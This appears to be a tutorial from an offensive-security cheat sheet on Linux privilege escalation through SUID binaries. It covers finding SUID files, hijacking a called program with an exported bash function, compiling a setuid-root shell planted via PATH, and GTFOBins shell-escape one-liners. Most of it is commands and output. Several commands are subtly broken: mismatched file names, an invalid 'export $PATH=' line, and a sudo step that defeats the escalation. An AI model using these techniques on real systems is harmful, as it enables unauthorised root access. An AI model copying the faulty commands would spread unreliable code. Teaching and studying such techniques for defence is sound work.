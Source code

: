 ## SUID Binaries

SUID (Set User ID) bit is a special permission in Linux that allows a program to run as the program's owner for all users on the system that have access to it which may lead to performing privilege escalation by execute code or write arbitrary data on the system.

### How to Find SUIDs?

To find SUID that may be useful then execute the following commands:

```
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

For example, an output could be:

```
bash-4.2$ find / -user root -perm -4000 -print 2> /dev/null
find / -user root -perm -4000 -print 2> /dev/null
/usr/bin/mount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/su
/usr/bin/update_my_docs
[... reduced ...]
````

If we'll check the /usr/bin/update_my_docs we'll see it's running under root ownership:

```
bash-4.2$: ls /usr/bin/update_my_docs -alh                  
-rwsr-xr-x 1 root root 138K 23 nov.  16:04 /usr/bin/update_my_docs
```

### Exploiting SUID

Exploiting SUIDs binaries is very simple and there are two diffrent techniques to use it.
Let's say we'd like to check what function our program use, so we'll use strings utility as following:

```
bash-4.2:/usr/bin$ strings update_my_docs
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
puts
system
__libc_start_main
GLIBC_2.0
PTRh0
[^_]
cp
```

In this example, we quickly identify the cp (copy) binary which executed as system (see the function name inside right?)

#### Bash Function Manipulation

In this technique, we'll export a bash function matching one of the programs called by the program (i.e., "/usr/bin/cp"):

```
function /usr/bin/cp(){ /bin/sh; }
export -f /usr/bin/cp
```

Then we'll execute our program /usr/bin/update_my_docs to get our shell.

#### Create Binary SUID

In this method, we'll create a SUID bianry as following:

```
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > /tmp/setuid.c
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
mv setuid cp # change name to the expected binary in our example
```

Place it in our $PATH using the command:

```
export $PATH=/tmp:$PATH
```

Then execute our binary to get shell as root.

#### GTFOBins 

GTFOBins is a list of UNIX binaries that can be exploited to bypass local security restrictions. Those binaries can be abused to escape restricted shells, spawn remote shells, elevate privlieges 
and more. 

A few examples: 

``` 
awk 'BEGIN {system("/bin/sh")}'
sudo find . -exec /bin/sh \; -quit
```

For more acurated list: https://gtfobins.github.io/gtfobins/
